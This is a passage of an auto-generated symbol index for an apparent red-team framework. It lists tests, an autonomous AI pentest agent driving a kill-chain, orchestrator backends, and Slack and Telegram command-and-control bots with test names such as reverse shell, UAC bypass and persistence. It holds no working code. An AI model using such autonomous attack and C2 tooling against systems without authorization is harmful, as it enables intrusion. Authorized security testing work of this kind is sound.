- `test_list_all_includes_history` (line 844) `def test_list_all_includes_history(self)` - *list_all() merges live drones and persisted history.*
- `test_mcp_hive_recover_no_interrupted` (line 862) `def test_mcp_hive_recover_no_interrupted(self)` - *mcp_hive_recover() returns a helpful message when there is nothing to recover.*

#### `test_mcp_smoke.py`
**Path:** `skills/tests/test_mcp_smoke.py`
**File Doc:** *Smoke test for the MCP server: verify all 131 tools are registered.  Run: python3 skills/tests/test_mcp_smoke.py*

**Functions:**
- `check` (line 23) `def check(label, cond, hint)`
- `test_mcp_module_imports` (line 34) `def test_mcp_module_imports()` - *Verify the MCP module can be imported without syntax errors.*
- `test_mcp_wellknown_symbols` (line 47) `def test_mcp_wellknown_symbols(mcp)` - *Verify expected symbols are defined at module level.*
- `test_list_tools_returns_tools` (line 61) `def test_list_tools_returns_tools(mcp)` - *Run list_tools() and verify it returns tool definitions.*
- `main` (line 92) `def main()`

#### `test_objectives.py`
**Path:** `skills/tests/test_objectives.py`
**File Doc:** *Tests for lazyown_objective.py — ObjectiveStore and SoulUpdater.  All file I/O is redirected to tmp_path (pytest fixture). No writes to the real sessions/ directory.*

**Classes:**
- `TestObjectiveStore` (line 51) `class TestObjectiveStore`
- `TestSoulUpdater` (line 204) `class TestSoulUpdater`

**Functions:**
- `_store` (line 31) `def _store(tmp_path)` - *Return an ObjectiveStore backed by tmp_path.*
- `_soul_updater` (line 36) `def _soul_updater(tmp_path)` - *Return a SoulUpdater whose soul file lives in tmp_path.*

**Methods:**
- `test_inject_basic` (line 52) `def test_inject_basic(self, tmp_path)` - *inject() → objective appears in list_pending().*
- `test_dedup` (line 62) `def test_dedup(self, tmp_path)` - *Inject same text twice → only one pending objective.*
- `test_ttl_expiry` (line 74) `def test_ttl_expiry(self, tmp_path)` - *Low-priority objective with created_at 48h ago → cleanup() marks it skipped.*
- `test_next_pending_priority` (line 99) `def test_next_pending_priority(self, tmp_path)` - *Inject low + critical → next_pending() returns critical.*
- `test_next_pending_fifo_same_priority` (line 109) `def test_next_pending_fifo_same_priority(self, tmp_path)` - *Two medium objectives → next_pending() returns the earlier one (FIFO).*
- `test_complete` (line 119) `def test_complete(self, tmp_path)` - *complete() marks objective as done.*
- `test_block` (line 129) `def test_block(self, tmp_path)` - *block() marks objective as blocked with reason.*
- `test_inject_invalid_priority_defaults_medium` (line 140) `def test_inject_invalid_priority_defaults_medium(self, tmp_path)` - *Invalid priority string → falls back to 'medium'.*
- `test_list_pending_empty` (line 146) `def test_list_pending_empty(self, tmp_path)` - *Empty store → list_pending() returns [].*
- `test_next_pending_none_when_empty` (line 151) `def test_next_pending_none_when_empty(self, tmp_path)` - *Empty store → next_pending() returns None.*
- `test_objectives_persist_on_disk` (line 156) `def test_objectives_persist_on_disk(self, tmp_path)` - *Inject objective, create fresh store from same path → still in pending.*
- `test_cleanup_medium_72h_ttl` (line 166) `def test_cleanup_medium_72h_ttl(self, tmp_path)` - *Medium-priority objective 80h old → expires (TTL=72h).*
- `test_cleanup_critical_never_expires` (line 182) `def test_cleanup_critical_never_expires(self, tmp_path)` - *Critical-priority objective 1000h old → does NOT expire (TTL=None).*
- `test_soul_updater_patch_line` (line 205) `def test_soul_updater_patch_line(self, tmp_path)` - *update_phase('exploit') → soul.md contains 'Phase:' followed by 'exploit'.*
- `test_soul_updater_target_line` (line 216) `def test_soul_updater_target_line(self, tmp_path)` - *update_target('10.10.11.78') → soul.md contains 'Target: 10.10.11.78'.*
- `test_soul_updater_section` (line 223) `def test_soul_updater_section(self, tmp_path)` - *update_credentials([{username, password}]) → soul.md has Known Credentials section.*
- `test_soul_updater_credentials_hash` (line 231) `def test_soul_updater_credentials_hash(self, tmp_path)` - *update_credentials with hash_value → soul.md shows truncated hash with (NTLM) tag.*
- `test_soul_updater_credentials_username_only` (line 241) `def test_soul_updater_credentials_username_only(self, tmp_path)` - *update_credentials with username only → shows 'username only' notation.*
- `test_soul_updater_section_os` (line 249) `def test_soul_updater_section_os(self, tmp_path)` - *update_os() → soul.md has Detected OS section.*
- `test_soul_updater_section_access` (line 257) `def test_soul_updater_section_access(self, tmp_path)` - *update_access() → soul.md has Achieved Access section.*
- `test_soul_updater_vulnerabilities` (line 265) `def test_soul_updater_vulnerabilities(self, tmp_path)` - *update_vulnerabilities() → soul.md has Key Vulnerabilities section.*
- `test_soul_updater_patch_replaces_existing` (line 274) `def test_soul_updater_patch_replaces_existing(self, tmp_path)` - *Calling update_phase twice → second value replaces first (not appended).*
- `test_soul_updater_empty_creds_noop` (line 285) `def test_soul_updater_empty_creds_noop(self, tmp_path)` - *update_credentials([]) → soul.md unchanged (no section added).*
- `test_soul_updater_appends_new_section` (line 293) `def test_soul_updater_appends_new_section(self, tmp_path)` - *Section that doesn't exist yet → appended at end of file.*

#### `test_parquet_db.py`
**Path:** `skills/tests/test_parquet_db.py`
**File Doc:** *Tests for lazyown_parquet_db.py — ParquetDB.  Uses tmp_path fixture exclusively; never touches real parquets/ or sessions/. pandas and pyarrow are required (verified at import time).*

**Classes:**
- `TestParquetDBSync` (line 91) `class TestParquetDBSync`
- `TestParquetDBAnnotate` (line 177) `class TestParquetDBAnnotate`
- `TestParquetDBQuerySession` (line 276) `class TestParquetDBQuerySession`
- `TestParquetDBQueryKnowledge` (line 351) `class TestParquetDBQueryKnowledge`
- `TestStableId` (line 401) `class TestStableId`

**Functions:**
- `_write_csv` (line 56) `def _write_csv(path, rows)` - *Write a minimal session CSV file compatible with ParquetDB.sync().*
- `_make_db` (line 67) `def _make_db(tmp_path)` - *Create a ParquetDB pointed entirely at tmp_path.

We patch _root / _parquets / _session_pkt and also pass a non-existent
lazyown.py so _build_cmd2_category_map returns {} gracefully.*

**Methods:**
- `test_sync_from_csv` (line 92) `def test_sync_from_csv(self, tmp_path)` - *Create a minimal CSV, sync() → parquet has correct rows.*
- `test_sync_skips_empty_command` (line 121) `def test_sync_skips_empty_command(self, tmp_path)` - *Rows with empty command → skipped by sync().*
- `test_sync_idempotent` (line 140) `def test_sync_idempotent(self, tmp_path)` - *Syncing the same CSV twice → second sync adds 0 rows.*
- `test_schema_cols` (line 155) `def test_schema_cols(self, tmp_path)` - *Synced parquet has all SCHEMA_COLS columns.*
- `test_sync_missing_csv` (line 170) `def test_sync_missing_csv(self, tmp_path)` - *sync() with non-existent CSV → returns 0, no crash.*
- `_setup_with_one_row` (line 178) `def _setup_with_one_row(self, tmp_path)`
- `test_annotate` (line 198) `def test_annotate(self, tmp_path)` - *sync then annotate a row with success=False → success column updated.*
- `test_annotate_category` (line 208) `def test_annotate_category(self, tmp_path)` - *annotate() can update category field.*
- `test_annotate_missing_id` (line 217) `def test_annotate_missing_id(self, tmp_path)` - *annotate() with a non-existent row_id → returns False.*
- `test_annotate_rich_finding_type_credential` (line 223) `def test_annotate_rich_finding_type_credential(self, tmp_path)` - *annotate_rich with output containing 'password:' → finding_type='credential'.*
- `test_annotate_rich_finding_type_vulnerability` (line 233) `def test_annotate_rich_finding_type_vulnerability(self, tmp_path)` - *annotate_rich with 'CVE-' in output → finding_type='vulnerability'.*
- `test_annotate_rich_finding_type_hash` (line 243) `def test_annotate_rich_finding_type_hash(self, tmp_path)` - *annotate_rich with NTLM hash pattern → finding_type='hash'.*
- `test_annotate_rich_output_snippet_truncated` (line 256) `def test_annotate_rich_output_snippet_truncated(self, tmp_path)` - *annotate_rich stores at most 300 chars of output.*
- `test_annotate_rich_explicit_finding_type` (line 265) `def test_annotate_rich_explicit_finding_type(self, tmp_path)` - *annotate_rich with explicit finding_type overrides auto-detect.*
- `_setup_two_phases` (line 277) `def _setup_two_phases(self, tmp_path)`
- `test_query_session_filter` (line 306) `def test_query_session_filter(self, tmp_path)` - *query_session(phase='recon') returns only recon rows.*
- `test_query_session_scanning_filter` (line 314) `def test_query_session_scanning_filter(self, tmp_path)` - *query_session(phase='scanning') returns only scanning rows.*
- `test_query_session_no_filter` (line 322) `def test_query_session_no_filter(self, tmp_path)` - *query_session() with no filter returns all rows.*
- `test_query_session_empty` (line 328) `def test_query_session_empty(self, tmp_path)` - *query_session() on empty parquet → returns [].*
- `test_query_session_target_filter` (line 334) `def test_query_session_target_filter(self, tmp_path)` - *query_session(target='1.2.3.4') filters by destination_ip.*
- `test_query_knowledge_session_parquet` (line 352) `def test_query_knowledge_session_parquet(self, tmp_path)` - *query_knowledge searches session_knowledge.parquet for a command keyword.*
- `test_query_knowledge_no_match` (line 370) `def test_query_knowledge_no_match(self, tmp_path)` - *query_knowledge for keyword that doesn't exist → empty or missing key.*
- `test_query_knowledge_keyword_binarios` (line 390) `def test_query_knowledge_keyword_binarios(self, tmp_path)` - *query_knowledge('curl') against real binarios.parquet → returns results.*
- `test_stable_id_deterministic` (line 402) `def test_stable_id_deterministic(self)` - *Same inputs → same ID.*
- `test_stable_id_different_inputs` (line 408) `def test_stable_id_different_inputs(self)` - *Different inputs → different IDs.*
- `test_stable_id_length` (line 414) `def test_stable_id_length(self)` - *Stable ID is 16 hex chars.*

#### `toposwarm_autonomous.py`
**Path:** `skills/toposwarm_autonomous.py`
**File Doc:** *skills/toposwarm_autonomous.py ================================ TopoSwarm Autonomous Red Team Agent ==================================== Drives LazyOwn through a full pentest kill-chain using TopoSwarm as the local AI router, with no dependency on Groq, Ollama, or Claude Code.  Architecture ------------ payload.json  →  AutonomousAgent │ phase loop (ReAct style) │ ┌───────┴───────┐ ▼               ▼ TopoSwarmBridge    ReactiveEngine route(goal)        analyse(output) │               │ ▼               │ LazyOwn PTY ───────────┘ execute tool │ ▼ StateTracker (discoveries, creds, phase) │ ▼ next goal decided*

**Classes:**
- `PentestState` (line 127) `class PentestState` - *Tracks everything discovered during the autonomous run.*
- `AutonomousAgent` (line 309) `class AutonomousAgent`

**Functions:**
- `_parse_output` (line 181) `def _parse_output(output, state, phase_name)` - *Extract discovered information from tool output and update state.*
- `_phase_goals` (line 233) `def _phase_goals(phase_idx, state, effort)` - *Return ordered list of NL goals to attempt in this phase.*
- `_enum_goals` (line 286) `def _enum_goals(state)` - *Build enumeration goals based on discovered services.*
- `_load_payload` (line 479) `def _load_payload()` - *Load payload.json from LazyOwn root.*
- `main` (line 489) `def main(argv)`

**Methods:**
- `add_finding` (line 145) `def add_finding(self, phase_name, text)`
- `summary` (line 149) `def summary(self)`
- `to_dict` (line 160) `def to_dict(self)`
- `__init__` (line 310) `def __init__(self, state, no_model, verbose, effort, max_phases, json_out)`
- `_execute_goal` (line 347) `def _execute_goal(self, goal, phase_name)` - *Route a NL goal and execute it via the orchestrator.*
- `_run_phase` (line 386) `def _run_phase(self, phase_idx)` - *Run one phase. Returns True if we should continue to next phase.*
- `_save_state` (line 418) `def _save_state(self)`
- `run` (line 432) `def run(self, start_phase)`

#### `unified_orchestrator.py`
**Path:** `skills/unified_orchestrator.py`
**File Doc:** *Unified orchestrator facade collapsing daemon, hive and SWAN into one surface.  The framework historically exposes three independent autonomous heads:  * :class:`skills.autonomous_daemon.EngageOrchestrator` — single-target kill-chain executor. * :class:`skills.hive_mind.QueenBrain` — drone swarm coordinator. * :class:`skills.swan_agent.SwanOrchestrator` — MoE+RL expert ensemble.  Each ships its own input shape, result shape, event format and lifecycle. That overlap forces the operator (and the LLM) to know which head to use before they can ask a question. This module re-frames them as interchangeable :class:`IOrchestratorBackend` implementations behind a single :class:`UnifiedOrchestrator` entry point that:  1. Normalises the input into an :class:`OrchestratorGoal`. 2. Picks a backend via :class:`RouterPolicy`. 3. Executes through the backend's lazily-imported real engine. 4. Normalises the output into :class:`OrchestratorResult`. 5. Emits a structured record onto the shared event bus.  The originals are untouched — this is a façade in the Gang-of-Four sense, not a rewrite. New code calls this module; the legacy entry points keep working until they are deprecated.*

**Classes:**
- `OrchestratorConfig` (line 51) `class OrchestratorConfig` - *Configuration container for :class:`UnifiedOrchestrator`.

Every tunable lives here so the orchestrator can be reconfigured from
``payload.json`` without code edits.*
- `OrchestratorGoal` (line 143) `class OrchestratorGoal` - *Validated request shape consumed by every backend.*
- `OrchestratorResult` (line 174) `class OrchestratorResult` - *Canonical result shape returned by :class:`UnifiedOrchestrator`.

Attributes:
    request_id: Stable id for correlating events with this run.
    backend: Identifier of the backend that handled the request.
    status: One of ``ok``, ``error``, ``unavailable``, ``invalid``.
    summary: Short single-line human-readable description.
    artefacts: Mapping of optional output paths or identifiers.
    events: Structured event entries emitted during the run.
    duration: Wall-clock seconds spent in :meth:`IOrchestratorBackend.run`.
    raw: Backend-native payload (kept opaque to callers).*
- `IOrchestratorBackend` (line 210) `class IOrchestratorBackend(Protocol)` - *Backend contract. Implementations must be side-effect-free on import.*
- `EventBus` (line 224) `class EventBus` - *Atomic append-only writer for orchestrator events.

The bus appends one JSON line per event to
``sessions/<events_filename>``. Writes are serialised with a process-
level lock and use ``O_APPEND`` to avoid interleaving when multiple
orchestrators share the same file.*
- `BackendRegistry` (line 300) `class BackendRegistry` - *Ordered registry of :class:`IOrchestratorBackend` implementations.*
- `RouterPolicy` (line 340) `class RouterPolicy` - *Pick the best backend for a given :class:`OrchestratorGoal`.

The policy is deliberately small and explicit so the operator can
predict routing decisions without reading the source.*
- `DaemonBackend` (line 408) `class DaemonBackend` - *Adapter onto :class:`skills.autonomous_daemon.EngageOrchestrator`.*
- `HiveBackend` (line 605) `class HiveBackend` - *Adapter onto :class:`skills.hive_mind.QueenBrain`.*
- `SwanBackend` (line 706) `class SwanBackend` - *Adapter onto :class:`skills.swan_agent.SwanOrchestrator`.*
- `GoalValidator` (line 806) `class GoalValidator` - *Boundary validator: raw input → :class:`OrchestratorGoal`.

The validator is the single place where user-controlled strings are
bounded and the mode whitelist is enforced. Everything downstream
works with already-validated values.*
- `UnifiedOrchestrator` (line 871) `class UnifiedOrchestrator` - *Single entry point that routes a goal through one of the backends.*

**Functions:**
- `_new_request_id` (line 963) `def _new_request_id()` - *Return a short opaque identifier used to correlate events.*
- `_make_result` (line 968) `def _make_result(request_id, backend, status, summary, artefacts, events, duration, raw)` - *Construct an :class:`OrchestratorResult` with sane defaults.

The helper avoids repeating the verbose dataclass-instantiation
keyword list at every error path.*
- `build_default_orchestrator` (line 995) `def build_default_orchestrator(payload, sessions_dir)` - *Wire the canonical three-backend orchestrator.

Args:
    payload: ``payload.json`` mapping. Used to derive the config and
        forwarded to per-backend defaults.
    sessions_dir: Optional override for the sessions directory.

Returns:
    A ready-to-use :class:`UnifiedOrchestrator`.*

**Methods:**
- `from_payload` (line 111) `def from_payload(cls, payload)` - *Return a config with ``payload.json`` overrides applied.

Args:
    payload: Loaded payload mapping. ``None`` returns the defaults.

Returns:
    A new :class:`OrchestratorConfig` instance.*
- `with_defaults` (line 156) `def with_defaults(self, config)` - *Return a copy with empty fields populated from ``config``.

Only fields whose absence is unambiguous are populated here.
``task_type`` is intentionally left blank when the caller did
not specify one so the router scores routing purely on the goal
text; SWAN's backend defaults the task type internally. The
numeric fields ``drones`` and ``timeout`` are likewise left at
zero so backends can apply their own defaults.*
- `to_dict` (line 197) `def to_dict(self)` - *Return a JSON-serialisable dictionary of the result.*
- `available` (line 215) `def available(self)` - *Return ``True`` when this backend can satisfy a request.*
- `run` (line 219) `def run(self, goal)` - *Execute ``goal`` and return a normalised :class:`OrchestratorResult`.*
- `__init__` (line 233) `def __init__(self, config, root)` - *Bind the bus to the active config.

Args:
    config: Active orchestrator configuration.
    root: Optional explicit sessions directory. Resolved against
        the current working directory.

Raises:
    ValueError: When ``config.max_event_bytes`` is non-positive.*
- `path` (line 252) `def path(self)` - *Return the resolved event file path.*
- `emit` (line 256) `def emit(self, event)` - *Append a single sanitised event to the bus.

Args:
    event: Event mapping. Must serialise to a JSON object whose
        encoded form fits within ``config.max_event_bytes``.

Returns:
    ``True`` when the event was persisted, ``False`` when the
    event was rejected (oversize, unserialisable) or the write
    failed.*
- `__init__` (line 303) `def __init__(self, backends)` - *Bind the registry to a fixed-order tuple of backends.

Args:
    backends: Sequence of backends. Order is preserved so the
        router can iterate by priority.

Raises:
    ValueError: When two backends share a name.*
- `names` (line 327) `def names(self)` - *Return the registered backend names in declaration order.*
- `get` (line 331) `def get(self, name)` - *Return the backend registered as ``name`` or ``None``.*
- `available` (line 335) `def available(self)` - *Return every backend that currently reports availability.*
- `__init__` (line 347) `def __init__(self, config, registry)` - *Bind the policy to config and backend registry.*
- `choose` (line 352) `def choose(self, goal)` - *Return the backend that should execute ``goal``.*
- `_score` (line 367) `def _score(self, goal, backend)`
- `_keyword_score` (line 404) `def _keyword_score(text, keywords)`
- `__init__` (line 413) `def __init__(self, config, factory, payload)` - *Bind to config, optional engine factory and payload mapping.

Args:
    config: Active configuration.
    factory: Optional callable that returns an object exposing
        ``run() -> dict``. Injected for tests; in production the
        adapter constructs the real ``EngageOrchestrator``
        lazily.
    payload: Optional ``payload.json`` mapping used to derive a
        fallback target (``active_target`` / ``rhost`` / ``host``)
        when the goal does not carry one explicitly.*
- `available` (line 435) `def available(self)` - *Return ``True`` when the underlying engine can be imported.*
- `run` (line 445) `def run(self, goal)` - *Execute a single-target kill-chain engagement.

Args:
    goal: The validated request shape.

Returns:
    A normalised :class:`OrchestratorResult`. ``status`` reflects
    backend-side failures without raising.*
- `effective_target` (line 489) `def effective_target(self, goal)` - *Return the daemon target this backend would use for ``goal``.

Resolution order:
    1. ``goal.target`` when set.
    2. ``goal.metadata[<daemon_target_keys>]``.
    3. ``payload[<daemon_target_keys>]``.
Returns an empty string when no candidate is available.*
- `_target_from_metadata` (line 502) `def _target_from_metadata(self, goal)`
- `_build` (line 513) `def _build(self, goal, target)`
- `_import_class` (line 535) `def _import_class()`
- `_summarise` (line 541) `def _summarise(raw, target)`
- `_artefacts` (line 585) `def _artefacts(raw)`
- `__init__` (line 610) `def __init__(self, config, factory)` - *Bind to config and an optional queen factory.*
- `available` (line 619) `def available(self)` - *Return ``True`` when the hive engine is importable.*
- `run` (line 629) `def run(self, goal)` - *Plan, dispatch, collect and synthesise via the hive.*
- `_build` (line 677) `def _build(self)`
- `_import_factory` (line 687) `def _import_factory()`
- `_summarise` (line 698) `def _summarise(tasks, synthesis)`
- `__init__` (line 711) `def __init__(self, config, factory)` - *Bind to config and an optional orchestrator factory.*
- `available` (line 720) `def available(self)` - *Return ``True`` when the SWAN engine is importable.*
- `run` (line 730) `def run(self, goal)` - *Execute a single SWAN task and normalise the result.*
- `_build` (line 772) `def _build(self, api_key)`
- `_import_factory` (line 779) `def _import_factory()`
- `_summarise` (line 785) `def _summarise(swan_result)`
- `_artefacts` (line 795) `def _artefacts(swan_result)`
- `__init__` (line 814) `def __init__(self, config)` - *Bind the validator to the active configuration.*
- `validate` (line 818) `def validate(self, goal, mode, phase, task_type, target, drones, timeout, api_key, metadata)` - *Return a normalised goal or raise :class:`ValueError`.

Args:
    goal: Free-form objective string.
    mode: Routing mode (``auto`` / ``daemon`` / ``hive`` / ``swan``).
    phase: Kill-chain phase identifier.
    task_type: SWAN task type identifier.
    target: Single-target identifier for the daemon backend.
    drones: Hive drone count.
    timeout: SWAN timeout in seconds.
    api_key: Optional API key forwarded to the backend.
    metadata: Optional metadata mapping carried alongside the
        goal (used by tests to inject a stable ``request_id``).

Returns:
    A validated :class:`OrchestratorGoal`.

Raises:
    ValueError: When ``goal`` is empty or ``mode`` is unknown.*
- `__init__` (line 874) `def __init__(self, config, registry, router, validator, bus)` - *Bind the orchestrator to its collaborators.*
- `backends` (line 890) `def backends(self)` - *Return the registered backend names in declaration order.*
- `execute` (line 894) `def execute(self, goal, mode, phase, task_type, target, drones, timeout, api_key, metadata)` - *Validate, route, execute and emit one goal end-to-end.

Returns:
    The normalised :class:`OrchestratorResult`. Validation errors
    and missing backends are returned as results with the
    corresponding status — this method never raises.*
- `_emit` (line 948) `def _emit(self, result, mode, goal)`

#### `update_knowledge.py`
**Path:** `skills/update_knowledge.py`
**File Doc:** *LazyOwn Knowledge Refresh ========================== Refreshes the session_knowledge.parquet from the current CSV and optionally trains the sklearn classifier.  Usage: python3 skills/update_knowledge.py [--train] [--min-rows N]  Suitable for cron / post-op automation: 0 * * * * python3 $(dirname "$0")/update_knowledge.py --train 2>&1*

**Functions:**
- `main` (line 40) `def main(argv)`

#### `slack_c2_bot.py`
**Path:** `slack_c2_bot.py`
**File Doc:** *slack_c2_bot_socket.py*

**Classes:**
- `SecureSessionManager` (line 28) `class SecureSessionManager`

**Functions:**
- `capture_shell_output` (line 95) `def capture_shell_output(cmd)`
- `handle_message` (line 113) `def handle_message(event, say, logger)`
- `cmd_addcli` (line 177) `def cmd_addcli(ack, respond, command)`
- `cmd_clients` (line 195) `def cmd_clients(ack, respond, command)`
- `cmd_download` (line 209) `def cmd_download(ack, respond, command)`
- `handle_file` (line 240) `def handle_file(event, say, logger)`
- `mentioned` (line 252) `def mentioned(ack, say, event)`

**Methods:**
- `__init__` (line 29) `def __init__(self)`
- `register_failed_attempt` (line 34) `def register_failed_attempt(self, user_id)`
- `check_lockout` (line 42) `def check_lockout(self, user_id)`
- `check_rate_limit` (line 52) `def check_rate_limit(self, user_id)`
- `create_session` (line 63) `def create_session(self, user_id)`
- `validate_session` (line 71) `def validate_session(self, user_id)`
- `set_client` (line 81) `def set_client(self, user_id, client_id)`
- `get_client` (line 85) `def get_client(self, user_id)`

#### `conf.py`
**Path:** `source/conf.py`
**File Doc:** *Configuration file for the Sphinx documentation builder.  For the full list of built-in configuration values, see the documentation: https://www.sphinx-doc.org/en/master/usage/configuration.html  -- Project information ----------------------------------------------------- https://www.sphinx-doc.org/en/master/usage/configuration.html#project-information*

*No symbols extracted*

#### `telegram_c2.py`
**Path:** `telegram_c2.py`

**Classes:**
- `SecureSessionManager` (line 18) `class SecureSessionManager`
- `Config` (line 77) `class Config`

**Functions:**
- `load_payload` (line 87) `def load_payload()`
- `start` (line 93) `def start(update, context)`
- `exce_cmd` (line 116) `def exce_cmd(update, context)`
- `add_cli` (line 191) `def add_cli(update, context)`
- `handle_file` (line 203) `def handle_file(update, context)`
- `download_c2` (line 230) `def download_c2(update, context)` - *Handle the /download_c2 command to download a file from the C2.

Parameters:
update (Update): The Telegram update object.
context (CallbackContext): The context object.

Returns:
None*
- `send_connected_clients` (line 271) `def send_connected_clients(update, context)`
- `main` (line 286) `def main()`

**Methods:**
- `__init__` (line 19) `def __init__(self)`
- `register_failed_attempt` (line 24) `def register_failed_attempt(self, user_id)`
- `check_lockout` (line 31) `def check_lockout(self, user_id)`
- `check_rate_limit` (line 40) `def check_rate_limit(self, user_id)`
- `create_session` (line 53) `def create_session(self, user_id, client_id)`
- `validate_session` (line 61) `def validate_session(self, user_id)`
- `__init__` (line 78) `def __init__(self, config_dict)`
- `__getitem__` (line 83) `def __getitem__(self, key)`

#### `telegram_hermes.py`
**Path:** `telegram_hermes.py`
**File Doc:** *telegram_hermes.py LazyOwn Telegram Bot with Hermes Gateway Integration  This bot bridges Telegram to the full LazyOwn framework via the MCP layer and Hermes gateway for autonomous task execution. It supports: - Direct LazyOwn shell command execution - Autonomous agent delegation (Groq/Ollama) - Cron-scheduled tasks - C2 beacon interaction - Cross-platform messaging via Hermes gateway  Usage: python3 telegram_hermes.py  Configuration (payload.json keys): telegram_token       - Telegram bot token from @BotFather c2_pass              - Authentication secret for /start enable_ia            - Enable Groq AI processing (default: false) api_key              - Groq API key (if enable_ia is true) lhost, c2_port       - C2 server coordinates*

**Classes:**
- `SecureSessionManager` (line 186) `class SecureSessionManager`

**Functions:**
- `run_lazyown_command` (line 61) `def run_lazyown_command(command, timeout)` - *Execute one or more LazyOwn shell commands non-interactively via PTY.
Replicates the MCP server's _run_lazyown_command logic.*
- `c2_request` (line 145) `def c2_request(path, method, body)`
- `load_payload` (line 177) `def load_payload()`
- `start` (line 255) `def start(update, context)`
- `help_cmd` (line 278) `def help_cmd(update, context)`
- `execute_command` (line 306) `def execute_command(update, context)`
- `sitrep` (line 337) `def sitrep(update, context)`
- `config_cmd` (line 373) `def config_cmd(update, context)`
- `add_cli` (line 422) `def add_cli(update, context)`
- `list_clients` (line 437) `def list_clients(update, context)`
- `c2_command` (line 464) `def c2_command(update, context)`
- `run_agent` (line 504) `def run_agent(update, context)`
- `delegate_task_cmd` (line 533) `def delegate_task_cmd(update, context)`
- `cron_schedule_cmd` (line 564) `def cron_schedule_cmd(update, context)`
- `status_cmd` (line 597) `def status_cmd(update, context)`
- `stop_daemon_cmd` (line 630) `def stop_daemon_cmd(update, context)`
- `download_file_cmd` (line 647) `def download_file_cmd(update, context)`
- `handle_file_upload` (line 675) `def handle_file_upload(update, context)`
- `text_command` (line 712) `def text_command(update, context)` - *Handle any text message as a direct LazyOwn command.*
- `main` (line 772) `def main()`

**Methods:**
- `__init__` (line 187) `def __init__(self)`
- `register_failed_attempt` (line 192) `def register_failed_attempt(self, user_id)`
- `check_lockout` (line 199) `def check_lockout(self, user_id)`
- `check_rate_limit` (line 208) `def check_rate_limit(self, user_id)`
- `create_session` (line 221) `def create_session(self, user_id, client_id)`
- `validate_session` (line 229) `def validate_session(self, user_id)`
- `get_client_id` (line 241) `def get_client_id(self, user_id)`
- `set_client_id` (line 245) `def set_client_id(self, user_id, client_id)`

#### `config.py`
**Path:** `test/config.py`
**File Doc:** *conftest.py o config.py*

**Functions:**
- `encrypt_data` (line 24) `def encrypt_data(data)`
- `decrypt_data` (line 33) `def decrypt_data(b64_data)`

#### `test_commands.py`
**Path:** `test/test_commands.py`
**File Doc:** *test_commands.py*

**Functions:**
- `send_command_via_web` (line 36) `def send_command_via_web(command)` - *Simula enviar un comando vía interfaz web /issue_command con autenticación básica*
- `get_encrypted_command` (line 51) `def get_encrypted_command()` - *Obtiene el comando cifrado del endpoint GET*
- `post_result` (line 59) `def post_result(result_data)` - *Envía el resultado cifrado al C2*
- `test_migrate` (line 79) `def test_migrate()`
- `test_uac_bypass` (line 89) `def test_uac_bypass()`
- `test_portscan` (line 99) `def test_portscan()`
- `test_discover` (line 110) `def test_discover()`
- `test_proxy` (line 121) `def test_proxy()`
- `test_download` (line 138) `def test_download()`
- `test_upload` (line 159) `def test_upload()`
- `test_persistence` (line 176) `def test_persistence()`
- `test_softenum` (line 186) `def test_softenum()`
- `test_simulate` (line 196) `def test_simulate()`
- `test_reverse_shell` (line 206) `def test_reverse_shell()`
- `test_shutdown` (line 216) `def test_shutdown()`

#### `testmeneitor.py`
**Path:** `testmeneitor.py`

**Classes:**
- `TestFunctions` (line 35) `class TestFunctions(TestCase)`

**Functions:**
- `extract_functions` (line 13) `def extract_functions(script_path)`
- `run_tests_with_script` (line 30) `def run_tests_with_script(script_path, functions)`
- `run_command_with_timeout` (line 54) `def run_command_with_timeout(command, timeout)`
- `run_tests_with_bash` (line 80) `def run_tests_with_bash(script_path, functions)`

#### `__init__.py`
**Path:** `tests/__init__.py`

*No symbols extracted*

#### `conftest.py`
**Path:** `tests/conftest.py`
**File Doc:** *Global pytest isolation hooks.  Resets module-level singleton state that otherwise leaks between tests and causes order-dependent failures (the world-model singleton cached by ``modules.world_model.get_world_model``). Each test starts from a clean singleton so a test can never observe engagement state written by an earlier test.*

**Classes:**
- `_HealthyRegistry` (line 94) `class _HealthyRegistry` - *Health stub keeping every member available for the test.*

**Functions:**
- `_isolated_llm_health` (line 16) `def _isolated_llm_health(tmp_path, monkeypatch)` - *Isolate the persisted LLM breaker and its shared registry per test.

``llm_pool`` is importable both as ``modules.llm_pool`` and as a
top-level ``llm_pool`` (tests that add ``modules/`` to ``sys.path``);
both module objects must point at the isolated path or breaker state
leaks between tests through the real ``sessions/lazy`` file.*
- `_fast_llm_connect_backoff` (line 46) `def _fast_llm_connect_backoff(monkeypatch)` - *Keep the pool's connect-retry backoff out of test wall-clock.

The retry itself is exercised by unit tests that stub ``sleep``;
everywhere else the offline backend fails fast, so the real backoff
would only add seconds per pool call across the suite.*
- `_reset_world_model_singleton` (line 62) `def _reset_world_model_singleton()` - *Drop the cached WorldModel before and after every test.*
- `_offline_llm_for_loop_tests` (line 72) `def _offline_llm_for_loop_tests(request, monkeypatch)` - *Loop/lazy unit tests never reach live LLM backends.

The loop's planner and goal decomposer call the configured chain;
without this pin the suite would depend on whatever local ollama or
gateway happens to answer, making tests slow and nondeterministic.
Tests exercising the pool patch ``llm_factory.complete`` themselves.*
- `_isolated_path` (line 32) `def _isolated_path()`
- `_offline` (line 89) `def _offline(model, prompt, max_tokens)`

**Methods:**
- `healthy` (line 97) `def healthy(self, name)`
- `report_failure` (line 100) `def report_failure(self, name, reason)`
- `report_success` (line 103) `def report_success(self, name)`

#### `integration_autonomous_flow.py`
**Path:** `tests/integration_autonomous_flow.py`

**Functions:**
- `test_autonomous_flow_integration` (line 15) `def test_autonomous_flow_integration()` - *Simulates a simplified autonomous flow to verify module integration.*

#### `run_mutation_addon_creator.py`
**Path:** `tests/run_mutation_addon_creator.py`
**File Doc:** *Manual mutation testing runner for the LazyAddon creator contract.  Introduces targeted mutations (validation bypasses, security hardening removals, renderer corruptions) into ``lazyc2/addon_creator.py`` and ``lazyc2/blueprints/addons.py`` and verifies the test suite detects each one.  A surviving mutant means the tests are too weak to notice the behaviour change, which violates the addon creator Definition of Done.*

**Functions:**
- `backup_files` (line 94) `def backup_files(mutations, base_dir)` - *Store the original content of every mutated file.

Args:
    mutations: The mutation catalogue.
    base_dir: The repository root.

Returns:
    A mapping of mutation name to original file content.*
- `restore_files` (line 112) `def restore_files(backups, base_dir, mutations)` - *Restore every mutated file to its original content.

Args:
    backups: Original contents keyed by mutation name.
    base_dir: The repository root.
    mutations: The mutation catalogue.*
- `run_tests` (line 125) `def run_tests()` - *Run the contract suite and report whether it passed.

Returns:
    True when the suite is green.*
- `main` (line 140) `def main()` - *Execute the mutation gate and restore the tree afterwards.

Returns:
    0 when every mutant was killed, 1 when any survived.*

